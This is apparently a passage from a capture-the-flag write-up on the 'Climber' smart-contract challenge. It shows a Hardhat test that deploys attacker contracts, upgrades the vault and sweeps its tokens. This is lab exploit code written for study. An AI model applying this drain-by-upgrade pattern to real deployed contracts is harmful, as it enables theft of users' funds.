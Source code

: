 Lastly, here is script I used to exploit the vault.

```js
    it('Exploit', async function () {        
        /** CODE YOUR EXPLOIT HERE */
        this.attackContract = await (await ethers.getContractFactory('ClimberAttacker', attacker)).deploy(this.timelock.address, this.vault.address, this.token.address);
        this.attackUpgradableContract = await (await ethers.getContractFactory('ClimberVaultAttackUpgrade')).deploy();

        await this.attackContract.connect(attacker).attack();
        this.attackContract.connect(attacker).upgradeVault(this.attackUpgradableContract.address);
        this.attackContract.connect(attacker).sweepFunds(this.token.address)
    });
```

```toc

```